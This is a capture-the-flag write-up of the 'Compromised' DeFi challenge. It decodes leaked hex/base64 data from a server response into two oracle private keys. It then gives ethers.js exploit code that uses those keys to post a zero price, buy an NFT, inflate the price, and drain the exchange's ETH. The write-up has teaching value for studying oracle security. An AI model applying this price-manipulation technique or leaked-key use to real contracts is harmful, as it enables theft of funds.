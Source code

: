 # Challenge # 7 Compromised    
While poking around a web service of one of the most popular DeFi projects in the space, 
you get a somewhat strange response from their server. This is a snippet:  
```
 HTTP/2 200 OK
          content-type: text/html
          content-language: en
          vary: Accept-Encoding
          server: cloudflare

          4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

          4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```
A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each

This price is fetched from an on-chain oracle, and is based on three trusted reporters:
 0xA73209FB1a42495120166736362A1DfA9F95A105,0xe92401A4d3af5E446d93D11EEc806b1462b39D15 and 0x81A5D6E50C214044bE44cA0CB057fe119097850c.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

## Step 1 - Looking at the contracts 
Taking a loook at the 3 contracts, at plain sight the only way I see I can manipulate 
the price of the oracles to drain the contract is if I make myself a TRUSTED_SOURCE_ROLE.  

After, realizing that, I took a look at the http response see what kind of data I could 
find. Decoding the bytes with https://onlinehextools.com/convert-hex-to-string I get a string 
text looking alike to a base64 encoded string. Decoding that base64 string, gives me 2 private
keys of the oracle source accounts with privilage to modify the price data.  

## Step 2 - Building exploit
Very simple, first we impersonate the TRUSTED_SOURCES account to change the price to 0 
so we can buy the nfts for free and again later to sell it for the amount balance of the exchange contract
in order to drain it.  
```js
		let privateKey1 = "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9";
		let privateKey2 = "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48";
		let wallet1 = new ethers.Wallet(privateKey1, ethers.provider);
		let wallet2 = new ethers.Wallet(privateKey2, ethers.provider);
		// Change price to 0
		await this.oracle.connect(wallet1).postPrice("DVNFT", 0);
		await this.oracle.connect(wallet2).postPrice("DVNFT", 0);
		// Buy free NFT
		const tx = await this.exchange.connect(attacker).buyOne({value: ethers.utils.parseEther('0.01')});
		const reciept = await tx.wait()
		const tokenId = reciept.events[1].args.tokenId;
		// Drain Contract
		await this.oracle.connect(wallet1).postPrice("DVNFT", await ethers.provider.getBalance(this.exchange.address));
		await this.oracle.connect(wallet2).postPrice("DVNFT", await ethers.provider.getBalance(this.exchange.address));
		await this.nftToken.connect(attacker).approve(this.exchange.address, tokenId);
		await this.exchange.connect(attacker).sellOne(tokenId);
		// Reset Price
		await this.oracle.connect(wallet1).postPrice("DVNFT", INITIAL_NFT_PRICE);
		await this.oracle.connect(wallet2).postPrice("DVNFT",INITIAL_NFT_PRICE);
``` 

